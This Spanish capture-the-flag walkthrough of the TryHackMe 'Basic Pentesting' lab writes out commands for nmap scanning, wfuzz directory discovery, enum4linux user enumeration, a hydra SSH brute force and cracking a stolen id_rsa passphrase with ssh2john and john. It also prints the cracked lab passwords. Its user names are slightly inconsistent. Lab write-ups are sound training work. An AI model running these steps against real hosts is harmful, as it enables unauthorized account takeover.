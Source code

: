 ```yaml
---
title : Máquina|Basic Pentesting|THM|SSH-JHON|EC
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/basicPentesting/basicPentesting.png" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/r/room/basicpentestingjt" style="color: lightblue;">Lazy Admin</a></p>
    </div>
</div>

<h2><font color="white"><center># BasicPentesting</center></font></h2>

* <p>Enumerando la maquina nos damos cuenta que es una maquina Linux por le ttl de respuesta el cual es 63, no es 64 porque hay un nodo intermediario.</p>
> ping -c 1 10.10.205.174 
>
<img src="/imgs/basicPentesting/basicPentesting0.jpg"/>

* <p>Seguido miramos puerto abiertos de la maquina, y detectamos la version de los puerto abiertos</p>
> nmap -O -sV --min-rate 5000 -sS -Pn --open 10.10.205.174 -o allports
>
<img src="/imgs/basicPentesting/basicPentesting1.jpg"/>
* <p>Veamos ahora el puerto ( 80 | http ) de la maquina</p>
> 
<img src="/imgs/basicPentesting/basicPentesting2.jpg"/>

* <p>Vemos que no hay nada interesante, asi que empezamos a descubrir rutas ocultas de la pagina web, y vemos que hay una ruta llamada development.</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.205.174/FUZZ
>
<img src="/imgs/basicPentesting/basicPentesting3.jpg"/>
* <p>Al mirar la los 2 archivos individualmente del directorio https://10.10.205.174/development no vemos nada interesante.</p>
>
<img src="/imgs/basicPentesting/basicPentesting4.jpg"/>
* <p>Asi que recordamos que tiene el puerto smb abierto asi que vamos a tratar de enumerarlo para poder sacar usuarios existentes</p>
> enum4linux 10.10.205.174
>
<img src="/imgs/basicPentesting/basicPentesting5.jpg"/>
>
`Tenemos 2 usuario existentes en el sistema Jay | kay.`
* <p> Teniendo esos 2 usuarios podemo hacer un ataque de fuerza bruta por ssh.</p>
> hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.205.174 ssh
>
<img src="/imgs/basicPentesting/basicPentesting6.jpg"/>
>
`Tenemos la contraseña de jan la cual es : armando`
* <p>Ahora lo que sigue es conectarnos por ssh a ver si es valida la información</p>
> ssh jan@10.10.205.174 
>
<img src="/imgs/basicPentesting/basicPentesting7.jpg"/>
* <p>Vemos que en el directorio de kay tenemos una id_rsa.</p>
>
<img src="/imgs/basicPentesting/basicPentesting8.jpg"/>
>
* <p>A la hora de conectarnos por ssh nos pide contraseña.</p>
>
<img src="/imgs/basicPentesting/basicPentesting9.jpg"/>

* <p>Pero podemos hacerle un crack con john, nos transferimos el archivo <font color="yellow">id_rsa</font> a  nuestra maquina</p>
>
<img src="/imgs/basicPentesting/basicPentesting10.jpg"/>
* <p>Ahora cambiamos el archivo <font color="yellow"> a un formato hash por jhon</font>.</p>
> /usr/share/john/ssh2john.py id_rsa  > crackeame
<img src="/imgs/basicPentesting/basicPentesting11.jpg"/>
* <p>Ahora crackeamos el archivo que generamos,y obtenemos la contraseña <font color="red">beeswax</font>.</p>
>
<img src="/imgs/basicPentesting/basicPentesting12.jpg"/>
* <p>Y listo al conectarnos podemos ver la contraseña de root , sin querer deje apagar la maquina y la ip cambio a 10.10.56.225 pero el proceso es el mismo.</p>
> ssh -i id_rsa kay@10.10.56.225
>
<img src="/imgs/basicPentesting/basicPentesting13.jpg"/>
>


